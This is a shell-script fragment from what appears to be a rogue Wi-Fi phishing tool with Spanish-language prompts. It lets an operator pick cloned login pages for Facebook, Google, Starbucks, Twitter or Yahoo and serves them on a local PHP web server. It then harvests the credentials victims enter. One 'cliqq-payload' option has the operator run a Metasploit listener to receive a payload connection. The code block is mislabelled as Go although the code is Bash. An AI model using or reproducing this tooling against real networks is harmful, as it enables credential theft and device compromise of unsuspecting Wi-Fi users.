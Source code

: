 ```go
	# Array de plantillas
	plantillas=(facebook-login google-login starbucks-login twitter-login yahoo-login cliqq-payload optimumwifi all_in_one)

	tput cnorm; echo -ne "\n${blueColour}[Información]${endColour}${yellowColour} Si deseas usar tu propia plantilla, crea otro directorio en el proyecto y especifica su nombre :)${endColour}\n\n"
	echo -ne "${yellowColour}[*]${endColour}${grayColour} Plantilla a utilizar (facebook-login, google-login, starbucks-login, twitter-login, yahoo-login, cliqq-payload, all_in_one, optimumwifi):${endColour} " && read template

	check_plantillas=0; for plantilla in "${plantillas[@]}"; do
		if [ "$plantilla" == "$template" ]; then
			check_plantillas=1
		fi
	done

	if [ "$template" == "cliqq-payload" ]; then
		check_plantillas=2
	fi

	if [ $check_plantillas -eq 1 ]; then
		tput civis; pushd $template > /dev/null 2>&1
		echo -e "\n${yellowColour}[*]${endColour}${grayColour} Montando servidor PHP...${endColour}"
		php -S 192.168.1.1:80 > /dev/null 2>&1 &
		sleep 2
		popd > /dev/null 2>&1; getCredentials
	elif [ $check_plantillas -eq 2 ]; then
		tput civis; pushd $template > /dev/null 2>&1
		echo -e "\n${yellowColour}[*]${endColour}${grayColour} Montando servidor PHP...${endColour}"
		php -S 192.168.1.1:80 > /dev/null 2>&1 &
		sleep 2
		echo -e "\n${yellowColour}[*]${endColour}${grayColour} Configura desde otra consola un Listener en Metasploit de la siguiente forma:${endColour}"
		for i in $(seq 1 45); do echo -ne "${redColour}-"; done && echo -e "${endColour}"
		cat msfconsole.rc
		for i in $(seq 1 45); do echo -ne "${redColour}-"; done && echo -e "${endColour}"
		echo -e "\n${redColour}[!] Presiona <Enter> para continuar${endColour}" && read
		popd > /dev/null 2>&1; getCredentials
	else
		tput civis; echo -e "\n${yellowColour}[*]${endColour}${grayColour} Usando plantilla personalizada...${endColour}"; sleep 1
		echo -e "\n${yellowColour}[*]${endColour}${grayColour} Montando servidor web en${endColour}${blueColour} $template${endColour}\n"; sleep 1
		pushd $template > /dev/null 2>&1
		php -S 192.168.1.1:80 > /dev/null 2>&1 &
		sleep 2
		popd > /dev/null 2>&1; getCredentials
	fi
}
```
